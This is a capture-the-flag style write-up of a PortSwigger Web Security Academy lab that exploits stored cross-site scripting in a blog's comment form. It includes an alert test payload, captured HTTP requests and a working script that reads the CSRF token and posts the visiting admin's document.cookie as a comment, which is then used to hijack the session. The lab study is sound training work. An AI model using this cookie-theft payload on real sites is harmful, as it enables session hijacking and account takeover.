




# Exploiting cross-site scripting to steal cookies

# solved :


# Solution :

- On opening the website we see a blogpage with a few posts which u can open and leave a comment on it.

- it also has a login auth page.

- We can check if XSS works by sending a comment using this payload cheatsheet : 

- `<script>alert('XSS')</script>`

- It worked! 



this means the comment part is vulnerable lets open this in burp and see the request sent to the server now.


```
POST /post/comment HTTP/2
Host: 0a7300780337b92082a235a000520074.web-security-academy.net
Cookie: session=SZi1XziHBLFvZTRYOvQIkh9brxCof2QI
Content-Length: 246
Cache-Control: max-age=0
Sec-Ch-Ua: "Chromium";v="141", "Not?A_Brand";v="8"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "Windows"
Accept-Language: en-US,en;q=0.9
Origin: https://0a7300780337b92082a235a000520074.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/141.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: https://0a7300780337b92082a235a000520074.web-security-academy.net/post?postId=9
Accept-Encoding: gzip, deflate, br
Priority: u=0, i

csrf=I3xTiscWooQHTRb2RdUEnUpM107NiFXm&postId=9&comment=%3Cscript%3Ealert%28%27XSS%27%29%3C%2Fscript%3E&name=Dantalian&email=hegdsatwik%40gmail.com&website=https%3A%2F%2F0a7300780337b92082a235a000520074.web-security-academy.net%2Fpost%3FpostId%3D9
```

- if we look at the request being sent we can see OUR Cookie and our CSRF token both.

- we can thus use js in console to get our cookie but we need admin cookie so we need to get that using XSS payloads.

- if we look at the page source we find this : 

```
<form action="/post/comment" method="POST" enctype="application/x-www-form-urlencoded">
                            <input required type="hidden" name="csrf" value="VNtYpjFrNln1t5iXawRn0tvCP83MNKsW">
                            <input required type="hidden" name="postId" value="6">
                            <label>Comment:</label>
```


- we can get the csrf token with the command : `document.getElementsByName("csrf")[0].value`

- out : `VNtYpjFrNln1t5iXawRn0tvCP83MNKsW`

- which is the same as the one we found in source. 
- **to Solve this challenge we will** : 

-  need to craft a payload to get the admin creds.

```js
<script>
window.addEventListener('DOMContentLoaded', function() {

var token = document.getElementsByName('csrf')[0].value
var payload = new FormData();

payload.append('csrf', token);
payload.append('postId', 5);
payload.append('comment', document.cookie);
payload.append('name', 'kpoli');
payload.append('email', 'satwik@email.com');
payload.append('website', 'http://satwik.com');


fetch('/post/comment', {
    method: 'POST',
    mode: 'no-cors',
    body: payload
});

});
</script>


```


- PostID is dynamic and it depends on which post we are attacking currently so i used postId= 5.

- thus we get our values :


```
secret=MYLAFgGpldJfgyHahh2EuhbRmAPxBpoe; session=RlBQpeBzkhsS0Lek7AlFpxRqK3n69pZo
```


- now we use the burp repeater or proxy to hijack the admin session to solve this chall.

- we modify the get-account to have our admin session to solve this challenge : 




Solved :


## Reference


- https://owasp.org/www-community/attacks/xss/
- https://portswigger.net/web-security/csrf